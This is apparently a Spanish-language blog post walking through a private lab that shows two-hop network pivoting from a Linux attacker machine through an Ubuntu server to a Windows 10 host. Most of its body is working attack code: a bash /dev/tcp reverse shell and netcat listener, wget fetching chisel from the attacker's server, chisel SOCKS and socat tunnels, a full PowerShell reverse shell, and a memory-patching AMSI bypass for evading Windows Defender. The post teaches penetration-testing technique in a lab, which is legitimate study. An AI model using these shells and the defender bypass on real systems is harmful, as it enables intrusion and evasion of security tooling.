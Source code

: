 ```yaml
---
layout: single
title: Pivoting con dos saltos
excerpt: "Para hacer este artículo me he montado un pequeño laboratorio con dos máquinas ubuntu server 22.04 y otra con windows 10, para mostrar como funciona el pivoting con dos saltos. No se explota ninguna vulnerabilidad puesto que el propósito del artículo es sólamente mostrar como funciona el pivoting cuando hay más de un salto. Accederemos a la máquina server1 (ubuntu) y montaremos un proxy socks para, a través de él, llegar a la máquina windows, que está en otro segmento de red. Después accederemos a la máquina windows a través del proxy controlando el tráfico de ida y el de vuelta, y por último accederemos a la tercera máquina server2 (ubuntu), que estará en un tercer segmento de red, a través de otro proxy que habremos montado en la máquina windows controlando también el tráfico en la ida y en la vuelta, donde esta vez pasará a través de dos máquinas para llegar a la nuestra."
date: 2023-05-07
classes: wide
header:
  teaser: /assets/images/Pivoting/pivoting.jpg
  teaser_home_page: true
categories:
  - Ciberseguridad
tags:
  - Windows
  - Linux
  - Pivoting
---
```


Para hacer este artículo me he montado un pequeño laboratorio con dos máquinas ubuntu server 22.04 y otra con windows 10, para mostrar como funciona el pivoting con dos saltos. No se explota ninguna vulnerabilidad puesto que el propósito del artículo es sólamente mostrar como funciona el pivoting cuando hay más de un salto. Accederemos a la máquina server1 (ubuntu) y montaremos un proxy socks para, a través de él, llegar a la máquina windows, que está en otro segmento de red. Después accederemos a la máquina windows a través del proxy controlando el tráfico de ida y el de vuelta, y por último accederemos a la tercera máquina server2 (ubuntu), que estará en un tercer segmento de red, a través de otro proxy que habremos montado en la máquina windows controlando también el tráfico en la ida y en la vuelta, donde esta vez pasará a través de dos máquinas para llegar a la nuestra.

## Descripción del laboratorio

### Máquina server1
 - SO: Ubuntu Server 22.04
 - Interfaz de red 1: 192.168.0.145
 - Interfaz de red 2: 172.16.0.2

### Máquina Windows 10
 - SO: Windows 10 Pro x64
 - Interfaz de red 1: 172.16.0.4
 - Interfaz de red 2: 10.10.0.3

### Máquina server2
 - SO: Ubuntu Server 22.04
 - Interfaz de red 1: 10.10.0.4

### Máquina atacante:
 - SO: Arch Linux
 - Interfaz de red 1: 192.168.0.151

## Acceso a la máquina server1

Vamos a suponer que hemos descubierto una vulnerabilidad en la máquina server1, y hemos conseguido ejecución de código. Lanzamos una reverse shell y obtenemos acceso directo puesto que la máquina está en el mismo segmento de red que la nuestra.

Nos ponemos a la escucha con netcat en nuestra máquina y lanzamos una reverse shell desde server1 y nos llega perfectamente.

Máquina atacante:

```bash
sudo nc -lvnp 443
```
![](/assets/images/Pivoting/pivoting2.png)

Máquina server1:
```bash
sh -i >& /dev/tcp/192.168.0.151/443 0>&1
```
![](/assets/images/Pivoting/pivoting1.png)

Y convertimos la shell en una tty totalmente interactiva.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+z
stty raw -echo;fg
INTRO
export TERM=xterm
```

![](/assets/images/Pivoting/pivoting3.png)

## Socks proxy para llegar a la máquina windows.

Ahora vemos que la máquina tiene otra interfaz de red con la ip 172.16.0.2 y buscamos más máquinas que puedan estar en este segmento de red.

```bash
ip a
for i in {1..255} ; do (ping -c 1 172.16.0.$i | grep "bytes from" | cut -d ' ' -f4 | tr -d ':' &); done
```

![](/assets/images/Pivoting/pivoting4.png)

Vemos que hay otra máquina en la ip 172.16.0.4

Vamos a descargar chisel para linux desde aquí [chisel](https://github.com/jpillora/chisel/releases) y lo vamos a subir a la máquina server1.

Levantamos un servidor http en nuestra máquina compartiendo chisel, lo descargamos desde la máquina server1 con wget y le damos permisos de ejecución.

Máquina atacante:
```bash
python3 -m http.server
```

Máquina server1:
```bash
wget http://192.168.0.151:8000/chisel
chmod +x chisel
```

![](/assets/images/Pivoting/pivoting5.png)

Ejecutamos en nuestra máquina atacante el servidor de chisel:

```bash
./chisel server --reverse --port 1234
```

Y en server1 nos conectamos al servidor en modo proxy socks:

```bash
./chisel client 192.168.0.151:1234 R:socks
```

Podemos ver en nuestra máquina que se ha creado el túnel correctamente en el puerto 1080, es así por defecto si no especificamos ningún puerto.

![](/assets/images/Pivoting/pivoting7.png)

![](/assets/images/Pivoting/pivoting6.png)

Ahora añadimos la siguiente línea en el fichero proxychains.conf para que quede configurado para usar el proxy, y comentamos con # si hay algún otro proxy configurado para que solo actúe el nuestro en el puerto 1080.

```bash
socks5  127.0.0.1 1080
```

A partir de este momento las peticiones que hagamos con proxychains llegarán a la ip del windows, que está configurado en el segmento 172.16.0.0/24.

```bash
proxychains4 -q nmap -p445 -sT -T5 -Pn -v -n 172.16.0.4
```

Y vemos que llegamos y nos devuelve que tiene el puerto 445 abierto.

![](/assets/images/Pivoting/pivoting8.png)

## Acceso a la máquina windows

Seguidamente lo que queremos es acceder a la máquina windows, pero claro, si lanzamos una reverse shell hacia nuestra ip de atacante no va a llegar, puesto que no tiene comunicación directa con nosotros por estar en otro segmento de red. Atacante(192.168.0.151) Windows (172.16.0.4). Lanazaremos la reverse shell a la ip del server1 (172.16.0.2) y redigiremos la conexión con socat hasta nuestra ip de atacante. Podemos descargar socat desde aquí --> [socat](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat).

Lo descargamos y lo tranferimos a la máquina server1 igual que hicimos con chisel y le damos permisos de ejecución.

```bash
./socat TCP-LISTEN:1111,fork TCP:192.168.0.151:9001
```

Aquí estamos diciendo al server1 que todo el tráfico que llegue por el puerto 1111 lo redirija a la ip 192.168.0.151 (atacante) por el puerto 9001, que es donde estaremos a la escucha con netcat para recibir la conexión.

Ahora tenemos que lanzar la revere shell desde windows, a la ip 172.16.0.2 (server1) por el puerto 1111, y socat se encargará de enviarla a nuestra máquina atacante.

Reverse shell:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('172.16.0.2',1111);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Si lo ejecutamos tal cual va a saltar el defender quejándose de que es software malicioso. Podemos hacer un bypass al AMSI muy fácil ejecutando el siguiente código antes de ejecutar la reverse shell:

Bypass AMSI de Rastamouse:

```powershell
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

Ejecutamos primero el bypass y luego la reverse shell, y vemos que nos llega la conexión a nuestra máquina atacante.

![](/assets/images/Pivoting/bypass.png)

![](/assets/images/Pivoting/rshell.png)

![](/assets/images/Pivoting/pivoting9.png)


